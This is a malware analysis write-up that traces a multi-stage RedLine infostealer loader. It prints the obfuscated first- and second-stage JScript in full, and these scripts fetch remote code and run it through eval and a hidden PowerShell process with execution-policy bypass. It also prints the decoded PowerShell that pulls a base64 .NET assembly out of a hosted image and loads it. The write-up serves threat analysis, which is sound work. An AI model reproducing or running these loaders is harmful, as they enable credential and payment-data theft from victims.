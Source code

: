 ## Multi Stage Redline Infostealer

RedLine Stealer is malware available on underground forums for sale. This malware harvests information from browsers such as saved credentials, autocomplete data, and credit card information. A system inventory is also taken when running on a target machine, to include details such as the username, location data, hardware configuration, and information regarding installed security software.

## Initial JavaScript

``` powershell
function TwtgaWCivnsxiQCbwJSLTCoEJMdptJClJHpZjAWDdZiSqltCvhdULoxXBHwyHFsZGOAumfobRmSZYGcnTOqlQIORHhyqfcitfVIVoRXnknNbOnVerxNCyeaBAnMEDuvyWPYATkqBNDZeMFnDOCskmTaUSfpbVTXPKKBNtUyFSBdQbdByWNvZaxWgdUegnKYPirtLGYpA(str) {
    return str.split('').reverse().join('');
}

var oPFGPIuwcHruJTqFXjackEDlcnSzkthlCzIxXlRxaOutOoYGbxOJUKfcrtBMDtjLncxhrEnaotOSkdlvRkrSPphrTeSAxkMlnajBFllHaaMPVqXpMfUyXfABgdmnGxUicFvvXnegWxKqCEcNpydCZTlzoPAHStszEyriqeEaCkwZHyLRCPbAclBysrLOoipeWFgBnPbj = "56wui/d/ee.etsap//:sptth";
var cumuxNDEeacpyaraANJjLJnjKWjsdTrCJBWmgiGbHiuUIbVrZIQDORghDNrMPsyUzaOqvclFsaAspOPMMsRRVxjwjEHSFNjjlaJyfnBefRcZGdPVEHzEDwYZHiYlWgtzZIrqwJncSyvGXRdtQmwOgNmnXYtFaUYsLwaEJLZVsBorPpnRuJbiAmWofsqthdWXRodWaxKM = TwtgaWCivnsxiQCbwJSLTCoEJMdptJClJHpZjAWDdZiSqltCvhdULoxXBHwyHFsZGOAumfobRmSZYGcnTOqlQIORHhyqfcitfVIVoRXnknNbOnVerxNCyeaBAnMEDuvyWPYATkqBNDZeMFnDOCskmTaUSfpbVTXPKKBNtUyFSBdQbdByWNvZaxWgdUegnKYPirtLGYpA(oPFGPIuwcHruJTqFXjackEDlcnSzkthlCzIxXlRxaOutOoYGbxOJUKfcrtBMDtjLncxhrEnaotOSkdlvRkrSPphrTeSAxkMlnajBFllHaaMPVqXpMfUyXfABgdmnGxUicFvvXnegWxKqCEcNpydCZTlzoPAHStszEyriqeEaCkwZHyLRCPbAclBysrLOoipeWFgBnPbj);

var BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL = new ActiveXObject("MSXML2.ServerXMLHTTP");
BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.open("GET", cumuxNDEeacpyaraANJjLJnjKWjsdTrCJBWmgiGbHiuUIbVrZIQDORghDNrMPsyUzaOqvclFsaAspOPMMsRRVxjwjEHSFNjjlaJyfnBefRcZGdPVEHzEDwYZHiYlWgtzZIrqwJncSyvGXRdtQmwOgNmnXYtFaUYsLwaEJLZVsBorPpnRuJbiAmWofsqthdWXRodWaxKM, false);
BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.send();

var zFRcqeVmscmYglMSIKZAFqrssqIFeUgbGdouShnFfqpDAimEMJkAyPxIcPDUpQQAMmYIVtUFfORiLjLCeEUXtOPBVuPvoWYsuhhZOrGMMOgfinDwtmaWyqxlWykOsjqbWlPcJphRbNOKfyAANzexSiOpBsamnhxbXEknDRwbAgKIcMSduPSyCmavuzOxxPFKJyiqQhxu = BrBaUNfshzTYuatBKvgqoIJUECNQrrYReHtKDTCqurBnbAdZSxzIZjRObRMPzLaicRZnQkFIqMMyCWveHIPWPJxKyxjNKHwrjCuFIKPnxUVUwYWLnpcclMXOSUbAmZbpTuJvXsXbpqKsMeoWvLKApYUccAfUXpsuZOdgNwpgnWLKnJxDqgbsBzGoNgAzsbjeRIGvoejL.responseText;

(function() {
    eval(zFRcqeVmscmYglMSIKZAFqrssqIFeUgbGdouShnFfqpDAimEMJkAyPxIcPDUpQQAMmYIVtUFfORiLjLCeEUXtOPBVuPvoWYsuhhZOrGMMOgfinDwtmaWyqxlWykOsjqbWlPcJphRbNOKfyAANzexSiOpBsamnhxbXEknDRwbAgKIcMSduPSyCmavuzOxxPFKJyiqQhxu);
})();
```

Besides the very long annoying variable names, this initial script is quite simple, it takes the string "56wui/d/ee.etsap//:sptth", reverses it, and executes the contents of that URL.

Now we know where the second stage is hosted, we'll head over and download the contents to investigate further.

## 2nd Stage - Further JavaScript

``` powershell
    var gQBnV = false;

    function PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(LpxIb) {
        return LpxIb.split('').reverse().join('');
    }
   
    var olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("♚♛kC♚♛p♚♛wJ♚♛UG♚♛tBQY♚♛4E♚♛rBgb♚♛wE♚♛n♚♛♚♛I♚♛wC♚♛n♚♛♚♛X♚♛EG♚♛0BQY♚♛QE♚♛tBQY♚♛IH♚♛nBwb♚♛IH♚♛QB♚♛X♚♛oD♚♛DBwJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛x♚♛wJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛lBQb♚♛EG♚♛OBwc♚♛IG♚♛WBwJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛y♚♛wJ♚♛♚♛C♚♛s♚♛♚♛I♚♛cC♚♛n♚♛♚♛I♚♛wC♚♛g♚♛wJ♚♛gG♚♛0B♚♛d♚♛♚♛H♚♛zBgO♚♛8C♚♛v♚♛♚♛c♚♛EG♚♛zB♚♛d♚♛UG♚♛u♚♛QZ♚♛UG♚♛v♚♛♚♛Z♚♛8C♚♛VBQN♚♛cD♚♛LBQa♚♛8C♚♛w♚♛wJ♚♛gC♚♛g♚♛QX♚♛0F♚♛bB♚♛d♚♛MG♚♛lBga♚♛IG♚♛vBwW♚♛♚♛C♚♛s♚♛♚♛b♚♛wG♚♛1Bgb♚♛QC♚♛o♚♛QZ♚♛sG♚♛vBgd♚♛4G♚♛JBgL♚♛kC♚♛n♚♛gb♚♛UH♚♛SBwJ♚♛gC♚♛kBwb♚♛gG♚♛0BQZ♚♛0E♚♛0BQZ♚♛cE♚♛u♚♛QZ♚♛♚♛H♚♛5B♚♛d♚♛QC♚♛g♚♛QP♚♛♚♛C♚♛kBwb♚♛gG♚♛0BQZ♚♛0G♚♛k♚♛wO♚♛kC♚♛n♚♛QM♚♛MH♚♛zBQY♚♛wG♚♛DBgL♚♛MD♚♛5Bgc♚♛EG♚♛yBgY♚♛kG♚♛MBwc♚♛MH♚♛hB♚♛b♚♛ME♚♛n♚♛♚♛K♚♛UG♚♛wBQe♚♛QF♚♛0BQZ♚♛cE♚♛u♚♛Qe♚♛wG♚♛iBQb♚♛UG♚♛zBwc♚♛EE♚♛kBQZ♚♛QG♚♛hBwb♚♛wG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛QZ♚♛♚♛H♚♛5B♚♛d♚♛QC♚♛7♚♛QK♚♛MH♚♛lB♚♛d♚♛kH♚♛CB♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwY♚♛QC♚♛o♚♛♚♛Z♚♛EG♚♛vB♚♛T♚♛oD♚♛6♚♛QX♚♛kH♚♛sBgY♚♛0G♚♛lBwc♚♛MH♚♛BBgL♚♛4G♚♛vBQa♚♛QH♚♛jBQZ♚♛wG♚♛mBQZ♚♛IF♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛kH♚♛sBgY♚♛0G♚♛lBwc♚♛MH♚♛BB♚♛Z♚♛UG♚♛kBQY♚♛8G♚♛sB♚♛J♚♛sD♚♛p♚♛♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwQ♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛o♚♛wZ♚♛4G♚♛pBgc♚♛QH♚♛TB♚♛N♚♛YD♚♛lBwc♚♛EG♚♛CBQb♚♛8G♚♛yBgR♚♛oD♚♛6♚♛QX♚♛QH♚♛yBQZ♚♛YH♚♛uBwb♚♛ME♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛MH♚♛lB♚♛d♚♛kH♚♛CB♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwY♚♛QC♚♛7♚♛QK♚♛gG♚♛0BwZ♚♛4G♚♛lB♚♛T♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛g♚♛♚♛L♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛K♚♛cG♚♛uBQa♚♛IH♚♛0Bwc♚♛IG♚♛1BwU♚♛4C♚♛0B♚♛e♚♛UG♚♛UBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛♚♛Z♚♛4G♚♛hBQb♚♛0G♚♛vBwQ♚♛QD♚♛2♚♛QZ♚♛MH♚♛hBgY♚♛QC♚♛7♚♛♚♛e♚♛UG♚♛kBgb♚♛kE♚♛0Bgc♚♛EG♚♛0Bwc♚♛QC♚♛g♚♛QL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QG♚♛uBQZ♚♛QC♚♛g♚♛QP♚♛♚♛C♚♛oB♚♛d♚♛cG♚♛uBQZ♚♛wE♚♛0♚♛gN♚♛UG♚♛zBQY♚♛IG♚♛k♚♛wO♚♛gG♚♛0BwZ♚♛4G♚♛lB♚♛T♚♛4C♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛I♚♛0D♚♛r♚♛♚♛I♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛I♚♛QH♚♛nBQL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QG♚♛uBQZ♚♛QC♚♛g♚♛♚♛Z♚♛4G♚♛hBQL♚♛♚♛C♚♛w♚♛♚♛I♚♛UG♚♛nBQL♚♛♚♛C♚♛4BQZ♚♛QG♚♛uBQS♚♛QH♚♛yBQY♚♛QH♚♛zB♚♛J♚♛sD♚♛p♚♛wZ♚♛EG♚♛sBgR♚♛QG♚♛uBQZ♚♛QC♚♛o♚♛gZ♚♛8E♚♛4BQZ♚♛QG♚♛uBQS♚♛4C♚♛0B♚♛e♚♛UG♚♛UBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛♚♛I♚♛0D♚♛g♚♛♚♛e♚♛UG♚♛kBgb♚♛kE♚♛kBgb♚♛UG♚♛k♚♛wO♚♛kC♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛♚♛K♚♛YG♚♛PB♚♛e♚♛UG♚♛kBgb♚♛kE♚♛u♚♛♚♛d♚♛gH♚♛lB♚♛V♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛♚♛C♚♛9♚♛♚♛I♚♛gH♚♛lB♚♛Z♚♛4G♚♛JB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛cC♚♛+♚♛gP♚♛QE♚♛OBQR♚♛8F♚♛0♚♛gN♚♛UE♚♛TBQQ♚♛IE♚♛8♚♛♚♛P♚♛cC♚♛g♚♛QP♚♛♚♛C♚♛nBQY♚♛wG♚♛GB♚♛Z♚♛4G♚♛lB♚♛J♚♛sD♚♛n♚♛gP♚♛4D♚♛UBgU♚♛EE♚♛UBwU♚♛8F♚♛0♚♛gN♚♛UE♚♛TBQQ♚♛IE♚♛8♚♛♚♛P♚♛cC♚♛g♚♛QP♚♛♚♛C♚♛nBQY♚♛wG♚♛GB♚♛d♚♛IH♚♛hB♚♛d♚♛MH♚♛k♚♛wO♚♛kC♚♛zBQZ♚♛QH♚♛5BgQ♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛gC♚♛nBgb♚♛kG♚♛yB♚♛d♚♛MF♚♛0BQZ♚♛cE♚♛u♚♛♚♛O♚♛YE♚♛UBQV♚♛oD♚♛6♚♛QX♚♛cG♚♛uBQa♚♛QG♚♛vBwY♚♛4G♚♛FBgL♚♛QH♚♛4BQZ♚♛QF♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TBwW♚♛♚♛C♚♛9♚♛♚♛I♚♛QH♚♛4BQZ♚♛QF♚♛lBwZ♚♛EG♚♛tBQa♚♛QC♚♛7♚♛QK♚♛wG♚♛yBQV♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J♚♛gC♚♛hB♚♛d♚♛EG♚♛EB♚♛Z♚♛EG♚♛vB♚♛b♚♛4G♚♛3Bwb♚♛QE♚♛u♚♛♚♛d♚♛4G♚♛lBQa♚♛wG♚♛DBgY♚♛UG♚♛3B♚♛J♚♛♚♛C♚♛9♚♛♚♛I♚♛MH♚♛lB♚♛d♚♛kH♚♛CBQZ♚♛cG♚♛hBQb♚♛kG♚♛k♚♛wO♚♛QH♚♛uBQZ♚♛kG♚♛sBwQ♚♛IG♚♛lBwV♚♛4C♚♛0BQZ♚♛4E♚♛u♚♛Qb♚♛UG♚♛0Bwc♚♛kH♚♛TB♚♛I♚♛QH♚♛jBQZ♚♛oG♚♛iBwT♚♛0C♚♛3BQZ♚♛4E♚♛g♚♛QP♚♛♚♛C♚♛0Bgb♚♛UG♚♛pB♚♛b♚♛ME♚♛iBQZ♚♛cH♚♛k♚♛wO♚♛cC♚♛5♚♛♚♛M♚♛YD♚♛x♚♛QO♚♛UD♚♛y♚♛♚♛M♚♛cD♚♛x♚♛wP♚♛cG♚♛wBga♚♛4C♚♛zBga♚♛8C♚♛sBQY♚♛4G♚♛pBwZ♚♛kG♚♛yBwb♚♛8C♚♛3♚♛QN♚♛ID♚♛v♚♛QM♚♛kD♚♛2♚♛wL♚♛QD♚♛w♚♛♚♛M♚♛8C♚♛zBQZ♚♛cG♚♛hBQb♚♛kG♚♛v♚♛gc♚♛IG♚♛u♚♛Qb♚♛8G♚♛jBgL♚♛MH♚♛uBQZ♚♛cG♚♛hBQb♚♛kG♚♛lB♚♛Z♚♛QG♚♛hBwb♚♛wG♚♛wBQd♚♛8C♚♛v♚♛gO♚♛MH♚♛wB♚♛d♚♛QH♚♛oBwJ♚♛♚♛C♚♛9♚♛♚♛I♚♛wG♚♛yBQV♚♛UG♚♛nBQY♚♛0G♚♛pB♚♛J");
    var hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("' = ogidoC$") + 
    olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY + "';" +
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("S[ = dxujWO$") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("eT.metsy") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("nU::]gnidocnE.tx") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("eG.edoci") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("C.metsyS[(gnirtSt") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("6esaBmorF::]trevno") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("lper.ogidoc$(gnirtS4") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(";)) )'A','♚♛'(eca") +
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("niw- exe.llehsrewop") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("exe- neddih elytswod") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("N- ssapyb ycilopnoituc") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("moc- eliforPo") + 
    PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI("dxujWO$ dnam");
    var eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj = "\x57\x53\x63\x72\x69\x70\x74\x2E\x53\x68\x65\x6C\x6C"
    var ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF = new ActiveXObject(eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj);
    ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF.Run("\x70\x6F\x77\x65\x72\x73\x68\x65\x6C\x6C\x20\x2D\x63\x6F\x6D\x6D\x61\x6E\x64 \"" + hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq + "\"", 0, false);
```

Again, annoyingly long variable names, we can rename these just to make it a little less of an eye sore.

We can then work out parts of the script, simply by reversing the strings for the PowerShell part, and doing a From Hex operation on the later parts.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9838b0c5-600c-4c17-bab6-ef82d75c67a9)

The Base64 element can be analysed by utilising the following Operators in CyberChef:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/de584242-bd66-4c9e-b305-39a9e120e00b)

Which reveals the following:

``` powershell
$imageUrl = 'hxxps[://]uploaddeimagens.com[.]br/images/004/691/257/original/js.jpg?1702591609';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag =
'<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes =
[System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('ClassLibrary3.Class1');$method = $type.GetMethod('Run').Invoke($null, [object[]] ('0/iK75U/d/ee.etsap//:sptth' , '' , '2' , 'VbsName' , '1' , 'C:\ProgramData\',
'LnkName'))
```

There are 2 interesting URLs within this command block:

[-] hxxps[://]uploaddeimagens.com[.]br/images/004/691/257/original/js.jpg?1702591609

[-] hxxps[://]paste[.]ee/d/U57Ki/0

For the first URL, it reads the bytes in between 2 flags present in the strings of an image file and executes them.

We can extract this too by downloading the image, running a strings command, and extracting the code between the <<BASE64_START>> and <<BASE64_END>> flags.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/87dd46b6-366f-44d2-8768-9c26fae6b070)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7ae91d50-d7f6-42f1-8b17-eaf7dee97fdf)

When decoding this from Base64 we are given an executable file.






